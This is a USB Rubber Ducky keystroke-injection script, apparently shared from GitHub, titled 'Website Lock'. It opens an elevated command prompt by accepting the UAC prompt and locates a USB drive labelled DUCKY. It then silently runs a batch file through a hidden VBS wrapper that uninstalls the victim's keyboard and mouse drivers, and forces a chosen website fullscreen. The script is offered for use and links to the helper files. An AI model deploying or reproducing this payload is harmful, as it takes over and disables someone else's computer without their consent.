 The explanation is in the code.
Link to other files: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0 (same link as the one in the code)

Code:
	REM Title: Website Lock
	REM Author: Audiack
	REM Target Ducky Encoder: 2.6.2
	REM Target OS: Windows 7 (32 and 64 bit), maybe older/newer windows versions. Haven't tested it on any other than 7.
	REM Description: Plays off of Aprizm's script to open a website, but it also disables the mouse and keyboard so the user can't leave the website.
	REM Info:
	REM     The user can easily unplug and re-plug in the keyboard/mouse to reinstall the drivers get them working again. 
	REM     This requires the user to plug a USB drive in with some extra files BEFORE the ducky is plugged in.
	REM     The files are here: https://www.dropbox.com/sh/i09leu4kcifta6a/AACEFYQnlOIUsDtLLrQuemCha?dl=0.
	REM     Make sure the files are in the root of a drive called DUCKY.
	REM     Twin duck works well with this. It is what I used when I was testing it. 
	REM File Descriptions:
	REM     The devcon32 & devcon64 are the files used to uninstall the keyboard and mouse drivers (for the two architectures).
	REM     The invisible.vbs is used to run the batch script invisibly after the video is in fullscreen.
	REM     The TheRealAnnoyance.bat is the batch script run in the background that disables their mouse & keyboard.
	REM     The WebsiteLink.txt contains the website link. The user can change this as desired. Make sure there are no spaces and there is only a single link.

	DELAY 3000
	CTRL ESC
	DELAY 700
	STRING cmd
	CTRL-SHIFT ENTER
	DELAY 3000
	ALT Y
	DELAY 700

	STRING for /f %d in ('wmic.exe volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%d
	ENTER
	DELAY 1200
	STRING cd /d %myd%
	ENTER

	DELAY 1000
	STRING type "WebsiteLink.txt" | clip
	ENTER
	DELAY 100
	STRING C:/windows/System32/wscript.exe invisible.vbs TheRealAnnoyance.bat
	ENTER
	DELAY 400

	REM Aprizm's code for youtube roller begins here. I changed the link to a ctrl-v so that the ducky pastes the contents of WebsiteLink.txt hence line 20: 'type "WebsiteLink.txt" | clip'
	REM Title: Youtube Roller
	REM Author: Aprizm
	REM Description: This scripts opens a youtube video in fullscreen and puts the browser in fullscreen
	REM Option : if you change the link of the video dont forget to change the watch with watch_popup to have it fullscreen also add &loop=1 at the end to make it loop forever
	DELAY 200
	GUI r
	DELAY 200
	CTRL V
	ENTER
	DELAY 1000
	F11